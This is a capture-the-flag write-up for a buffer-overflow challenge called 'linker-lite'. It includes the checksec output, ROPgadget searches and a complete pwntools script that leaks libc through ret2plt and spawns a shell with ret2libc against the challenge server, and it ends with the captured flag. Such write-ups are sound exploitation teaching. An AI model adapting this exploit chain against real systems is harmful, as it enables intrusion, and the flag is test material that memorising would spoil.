


## Overview
```
Arch:       amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x3fe000)
Stripped:   No
```
This challenge was supposedly meant to be solved with ret2dlresolve, but I used ret2plt + ret2libc.

---
## Vulnerability
The vulnerability present in this challenge was a Buffer Overflow. It creates a buffer with the size of 64 bytes but reads in 256 bytes, therefore overflowing it.



---
## Exploit Development
There is no function that prints the flag, so we will have to get a shell. But this challenge implements a custom `read()` wrapper that requires you to fill the buffer entirely. We can just add padding to fill the buffer with python's `ljust` function.



For this challenge, we need to leak libc first and I will be using ret2plt, which you can read more about [here](https://jaiden2600.github.io/journal/2026-09-24-ret2plt-technique-demonstration). Then use that leak to get the base address by subtracting the leaked PLT entry offset. Which then we can use the base address to call `system()` with its function offset. 

We need two gadgets for this, a gadget to control the value of `rdi` and a `ret` gadget for stack alignment.
```bash
bird ➜ ~/.../WOLVCTF_2026/linkerlite $ ROPgadget --binary linker-lite | grep "pop rdi"
[ ... SNIP ... ]
0x0000000000401223 : pop rdi ; pop rsi ; pop rdx ; ret
[ ... SNIP ... ]
```

```bash
bird ➜ ~/.../WOLVCTF_2026/linkerlite $ ROPgadget --binary linker-lite | grep "ret"
[ ... SNIP ... ]
0x0000000000401226 : ret
[ ... SNIP ... ]
```

---
## Final Pwn

```python
from pwn import *

BINARY = "./linker-lite"
elf = context.binary = ELF(BINARY, checksec=False)
libc = ELF("./libc.so.6", checksec=False)
rop = ROP(elf)

GDBSCRIPT="""
b *main
c
"""

def start():
    if args.GDB:
        return gdb.debug(BINARY, gdbscript=GDBSCRIPT)
    elif args.REMOTE:
        return remote("linker-lite.wolvctf-2026.kctf.cloud", 1337)
    return process([BINARY])

io = start()

# gadgets
pop_rdi_rsi_rdx = 0x0000000000401223
ret     = 0x0000000000401226 # stack alignment

# stage 1 - leak with ret2plt
payload = flat(
    b"A" * 72,
    pop_rdi_rsi_rdx, elf.got["puts"], 0, 0,
    elf.plt["puts"],
    elf.sym["main"],
)
payload = payload.ljust(0x100, b"A")

io.sendafter(b"send plugin blob:", payload) # no newline
io.recvline()

leak = u64(io.recvline().strip().ljust(8, b"\x00"))
libc.address = leak - libc.sym["puts"]
print(f"puts   @ {leak:#x}")
print(f"libc base @ {libc.address:#x}")

# stage 2 - ret2libc
binsh   = next(libc.search(b"/bin/sh"))
system  = libc.sym["system"]

payload2 = flat(
    b"A" * 72,
    ret,
    pop_rdi_rsi_rdx, binsh, 0, 0,
    system,
)
payload2 = payload2.ljust(0x100, b"A")

io.sendafter(b"send plugin blob:", payload2)  
io.interactive()
```
```
wctf{n0_le4k_n0_pr0blem_ret2dlresolve}
```